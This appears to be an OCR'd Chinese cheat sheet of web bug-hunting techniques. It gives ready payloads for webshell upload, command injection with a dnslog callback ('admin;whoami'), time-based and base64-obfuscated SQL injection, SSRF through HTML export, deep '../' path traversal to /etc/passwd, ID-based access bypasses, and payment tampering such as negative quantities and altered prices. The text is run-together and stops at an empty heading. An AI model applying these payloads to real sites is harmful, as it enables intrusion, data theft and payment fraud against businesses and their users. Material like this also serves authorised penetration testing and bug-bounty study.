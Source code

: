 企业注册的地方有的需上传营业许可证之类的，这时可尝试上传webshell，若上传失败可尝试并发上传  
### 登录框RCE  
  
admin;whoamiusername=admin;whoami.dnslog.com&password=123456  
### sql注入  
  
大厂大部分函数都被过滤 所以采用延时1 and sleep(1) --+ 数字型1' and sleep(1) and ' 字符型and如果被过滤 替换 &&1 && 1 like sleep/**/(1)MSBhbmQgc2xIZXAoMSk= 延时1秒 base64  
### ssrf利用  
  
利用ssrf html导出功能场景 拿到指定文件内容请求包处修改请求报文  
```
<p><iframe src="http://tst.xxx.com/flag.html"></p>
```  
  
获取内网图片  
```
<img src="https://www.xxx.com/img/xxx.png">
```  
### 业务回退  
  
当优惠卷不能遍历并发的时候 尝试领取后浏览器返回上一级若能重新领取 则有漏洞用户修改密码成功 直接返回上一级变成修改密码 若别人能访问可尝试订单付款  
### 文件存在下载点  
  
尝试下载/读取其他文件../../ 没用时 可弄20来个../突破限制读取文件../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd  
### 常见id越权  
  
重点关注的点：收货地址 修改别人id 删除多余字段 下单改为别人的id 越权查看别人收货地址 若只有一个地址不可以越权删除用户编辑预览(草稿 回收站)报告(采购)订单(抽奖 付款)uid过长不好遍历则可设置为空后查看是否有隐藏参数  
### 子主账号  
  
登录管理员账号 抓包子账号，保留cookie,替换cookie,并且重放数据包，发现依旧能够获取到相同的数据即可证明子账号能够越权访问优惠套餐数据  
### 支付漏洞  
  
思考--怎么想到挖什么洞-一具体这个漏洞如何去挖怎么去分析思考的过程：核心：1、要便宜东西要到位：负数购买、小数点购买、优惠调整、直接修改下单金额、替换商品的参数、新人优惠并发、试用并发、type=3、free=1(不认识的参数如何思考：1、直接进行英文翻译fanyi.baidu.com 2、根据经验去看这个点)money=200&type=12、我只想买1天或者1小时：拆分购买，1周=7天=7*24小时=168小时需要168元但是你直接买1个小时仅需1元。3、打折这个问题是否有漏洞呢：根据页面提示做的思考4、一分钱不花东西拿走：实现方式：数量改成0、金额修改、支付类型修改生成订单这一步抓包，去修改  
  
可用余额：立即充值--首次充值--签约 并发 重放 修改数据包 四舍五入 溢出 小数点购买年限: 修改年限数字 拆分购买：count=:1year---count:=1day、count:=365-- count=1、count=aaa根据场景替换改反回包状态码 也可以这样尝试  
### 实际支付：  
  
交易密码：爆破交易密码 true--pwd=123555---pwd=true 修改返回包  
### 负数购买  
  
1、恶意锁库存：江2、修改数量、金币为负数3、修改uid为他人的越权花别人钱4、隐藏商品：更改商品id购买会员购买一些虚拟服务或者一些实体商城  
### 正负叠加  
  